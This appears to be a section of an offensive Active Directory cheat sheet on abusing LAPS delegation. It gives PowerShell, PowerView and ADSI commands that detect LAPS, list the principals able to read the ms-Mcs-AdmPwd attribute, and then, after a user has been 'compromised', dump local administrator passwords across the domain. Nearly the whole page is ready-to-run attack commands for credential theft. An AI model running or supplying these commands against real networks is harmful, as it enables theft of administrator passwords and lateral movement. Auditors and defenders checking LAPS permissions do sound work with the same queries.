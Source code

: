 ### LAPS delegation (AllExtendedRights on a computer)
Check if LAPS is installed:
```
# Identify if installed by Program Files on Domain Controller
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'

# Identify if installed by checking the AD Object
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'
```
Find who can get the LAPS passwords:
```
# LAPS module
Import-Module AdmPwd.PS
# Find the OUs that can read LAPS passwords
Find-AdmPwdExtendedRights -Identity <OU>
```
The following can be used to identify what objects have the ability to read the LAPS password property for a specified computer inside the domain:
```
# Powerview
Get-NetComputer -ComputerName '<Hostname>' -FullData |
    Select-Object -ExpandProperty distinguishedname |
    ForEach-Object { $_.substring($_.indexof('OU')) } | ForEach-Object {
        Get-ObjectAcl -ResolveGUIDs -DistinguishedName $_
    } | Where-Object {
        ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and
        ($_.ActiveDirectoryRights -match 'ReadProperty')
    } | ForEach-Object {
        Convert-NameToSid $_.IdentityReference
    } | Select-Object -ExpandProperty SID | Get-ADObject
```
Get ACL's where objects are allowed to read the LAPS password property.
```
# Powerview
Get-NetOU -FullData | 
    Get-ObjectAcl -ResolveGUIDs | 
    Where-Object {
        ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and 
        ($_.ActiveDirectoryRights -match 'ReadProperty')
    } | ForEach-Object {
        $_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID;
        $_
    }
```
Once we have compromised a user that can read LAPS:
```
# LAPS Module
Get-AdmPwdPassword -ComputerName <Hostname>

# Powerview
Get-NetComputer | Select-Object 'name','ms-mcs-admpwd'
Get-DomainComputer -identity <Hostname> -properties ms-Mcs-AdmPwd
Get-DomainComputer <target>.domain.local -Properties ms-mcs-AdmPwd,displayname,ms-mcs-AdmPwdExpirationTime

# PowerShell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'

# Native
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { Write-Host "" ; $_.properties.cn ; $_.properties.'ms-mcs-admpwd'}
```